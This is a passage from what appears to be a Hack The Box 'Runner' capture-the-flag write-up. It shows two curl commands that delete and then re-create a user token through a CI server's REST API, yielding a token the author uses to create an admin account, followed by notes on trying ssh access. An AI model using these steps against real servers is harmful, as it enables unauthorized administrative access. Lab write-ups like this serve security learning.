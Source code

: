 
"Token already exists"


We can send a delete request and then re-post:
`curl <site_url>/app/rest/users/id:1/tokens/RPC2 -X DELETE`


`curl <site_url>/app/rest/users/id:1/tokens/RPC2 -X POST`


it will return a token that can be used to authenticate and create an admin account.




Returning to the site we can examine the users page:




![alt text](/assets/imgs/htb-runner/image-10.png)








I initially tried to simply change this "John" user's password and then ssh in with it but that did not work.

